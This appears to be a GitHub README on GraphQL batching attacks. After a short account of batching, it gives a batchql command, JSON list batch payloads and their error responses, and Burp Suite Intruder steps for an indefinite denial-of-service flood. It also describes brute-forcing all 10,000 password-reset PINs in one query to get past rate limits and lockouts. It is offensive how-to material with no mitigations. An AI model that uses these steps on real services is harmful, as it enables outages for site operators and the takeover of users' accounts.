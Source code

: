 GraphQL is designed in a way that allows you to write clean code on the server, where every field on every type has a focused single-purpose function for resolving that value. However, without additional consideration, a naive GraphQL service could be very “chatty” or repeatedly load data from your databases.

This is commonly solved by a batching technique, where multiple requests for data from a backend are collected over a short period of time and then dispatched in a single request to an underlying database

# GraphQL-Batching-Attack
GraphQL batching attacks can be quite serious depending on the functionalities implemented. For example, imagine a password reset functionality which expects a 4 digit pin that was sent to your email. With this tool, you could attempt all 10k pin attempts in a single GraphQL query. This may bypass any rate limiting or account lockouts depending on the implementation details of the password reset flow.

Tool:
https://github.com/assetnote/batchql

Recommdated Command: (*cautions* may cause the hyper stress in backend)
python3 batch.py -e https://ENDPOINT -w wordlist -p localhost:8080 -s 5000 



JSON list based batching

When sending a GraphQL query, a single query may look like the following:

{"query": "query { Query { hacktheplanet } }"}
As seen in the query above, it consists of a single JSON dictionary containing a single query.

Many GraphQL implementations support sending batch queries by providing a JSON list of queries, like shown below:

[
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   },
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   }
]
In this case, a JSON list of queries is provided to the GraphQL server. If the GraphQL API supports this form of batching queries, it will respond with something like this:

[
   {
      "errors":[
         {
            "message":"Cannot query field \"Query\" on type \"Query\".",
            "locations":[
               {
                  "line":1,
                  "column":9
               }
            ]
         }
      ]
   },
   {
      "errors":[
         {
            "message":"Cannot query field \"Query\" on type \"Query\".",
            "locations":[
               {
                  "line":1,
                  "column":9
               }
            ]
         }
      ]
   }
]
Indicating that server-side batching was performed and both of the queries from the request were executed successfully.

TIME TO CONVERT JSON list based batching INTO APPLICATION DOS WITH BURPSUITE (*NOTE NOT TESTED IN BUGBOUNTY PROGRAM)

1. Capture the request JSON list based batching queries from the BatchQL tool
      [
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   },
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   }
]
2.Send the request to repeater and replace the above payload with JSON_list_Application_DOS.txt and Send the request three or four times and note response timing.

3. Send the request to Intruder select the whole request and take the null payload, payload options to continue indefinitely, in itruder options go to the attack results and click on Use denial-of-service mode (U can use more then two or more intruder attack tab for more traffic )

4. Start the attack, go to repeater send the request and observe the response and try to load the web page contents generating by the graphql.







